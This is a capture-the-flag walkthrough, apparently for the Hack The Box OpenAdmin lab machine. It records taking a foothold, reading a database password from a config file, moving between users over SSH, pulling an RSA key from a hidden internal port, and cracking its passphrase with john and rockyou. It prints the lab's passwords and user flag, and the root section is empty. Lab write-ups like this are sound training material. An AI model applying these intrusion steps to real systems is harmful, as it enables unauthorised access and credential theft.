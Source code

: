 


### Foothold
execute the exploit.sh to get a shell (found it from exploitdb for Apache 2.4.29)


### User #1
got access to www-data user
$ cd local/config/; cat database_settings.inc.php

and get a pass

n1nj4W4rri0R!

this is for user jimmy


ssh jimmy@10.10.10.171 worked






### User #2

reading the /var/internal/ files we understand that we must do a curl with

curl -X POST http://10.10.10.171/internal/main.php -d 'username=jimmy&password=Revealed'

and we dont get a response



login to jimmy and exec the following

$ netstat -l

and we find a hidden port open, the 52846

curl -d "username=jimmy&password=Revealed" -X POST http://localhost:52846/main.php


now we got an rsa key for joanna as the main.php file says. we save it as joanna-id-rsa
if we do
$ chmod 600 joanna-id-rsa
$ ssh -i joanna-id-rsa joanna@10.10.10.171
we get asked for a passphrase

we use
ssh2john
$ python ~/JohnTheRipper/run/ssh2john.py ~/Documents/stationary/htb/boxes/openadmin/joanna-id-rsa > tocrack
$ john --wordlist=/usr/share/wordlists/rockyou.txt tocrack

passphrase is :
bloodninjas

login with
$ ssh -i joanna-id-rsa joanna@10.10.10.171

$ cat user.txt
c9b2cf07d40807e62af62660f0c81b5f



### root
